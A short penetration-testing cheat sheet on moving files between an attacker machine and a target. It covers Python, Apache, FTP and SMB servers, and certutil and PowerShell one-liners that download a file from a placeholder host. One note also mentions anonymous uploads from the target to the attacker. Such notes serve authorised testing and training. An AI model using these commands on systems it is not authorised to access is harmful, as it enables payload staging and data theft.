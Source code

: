 # File Sharing

## Web server

### Python

```
python -m SimpleHTTPServer [port]
python3 -m http.server [port]
```

### Apache

```
mv file /var/www/html/ 
//and start the Apache2 service with 
service apache2 start
```

### Certutils

```
certutil -urlcache -split -f "http://ip-addr:port/file" [output-file]
```

### PowerShell

```
powershell -c (New-Object Net.WebClient).DownloadFile('http://ip-addr:port/file', 'output-file')
```

## FTP

### Python

```
sudo apt-get install python-pyftpdlib
python -m pyftpdlib [-p port].

//The default port pyftpdlib uses is port 2121. You can also append the
-w option to allow anonymous write, so that the target can anonymously upload files to the attacker machine.
```

```
python /usr/share/doc/python-impacket/examples/smbserver.py share-name root-dir
```

